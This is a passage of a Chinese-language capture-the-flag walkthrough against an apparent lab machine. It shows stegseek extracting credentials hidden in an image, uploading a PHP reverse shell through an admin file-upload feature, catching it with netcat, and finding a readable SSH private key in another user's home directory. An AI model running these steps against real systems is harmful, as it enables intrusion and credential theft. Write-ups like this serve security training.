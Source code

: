 ```shell
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ stegseek note.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "creds.txt".
[i] Extracting to "note.jpg.out".

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat note.jpg.out
Username: dev
Password: d3v3l0pm3nt!nt3rn
```

成功从图片中提取出隐藏的凭证。

## **后台文件上传Getshell**

利用刚刚获取的凭证 `dev:d3v3l0pm3nt!nt3rn` 登录之前发现的后台地址 `http://192.168.205.149/auth-lazycorp-dev/login.php`。

登录后，发现一个文件上传功能。结合之前爆破出的 `/uploads` 目录，我们可以上传一个PHP反向shell来获取服务器的控制权。

1.  在本地准备一个PHP反向shell（例如 `reverse.php`）。
2.  通过后台上传该文件。
3.  在Kali上使用 `netcat` 监听指定端口。
    ```shell
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
    └─$ nc -lvnp 8888
    ```
4.  访问上传后的shell文件 `http://192.168.205.149/auth-lazycorp-dev/uploads/reverse.php`，触发反弹。

```shell
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.149] 37494
Linux arvindlazycorp 5.4.0-216-generic ...
...
www-data@arvindlazycorp:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

成功获取了一个 `www-data` 用户的shell。

# **三、权限提升**

## **横向移动：www-data -> arvind**

获取初始shell后，首先进行信息收集。在 `/home/arvind/` 目录下，发现了一个 `.ssh` 目录，其中包含SSH私钥 `id_rsa`。

```shell
www-data@arvindlazycorp:/$ cd /home/arvind/.ssh
www-data@arvindlazycorp:/home/arvind/.ssh$ ls -al
total 20
drwxr-xr-x 2 arvind arvind 4096 Jul  9 07:37 .
drwxr-xr-x 5 arvind arvind 4096 Jul 16 12:49 ..
-rw------- 1 arvind arvind  747 Jul  9 07:47 authorized_keys
-rw-r--r-- 1 arvind arvind 3389 Jul  9 07:37 id_rsa
-rw-r--r-- 1 arvind arvind  747 Jul  9 07:37 id_rsa.pub
```
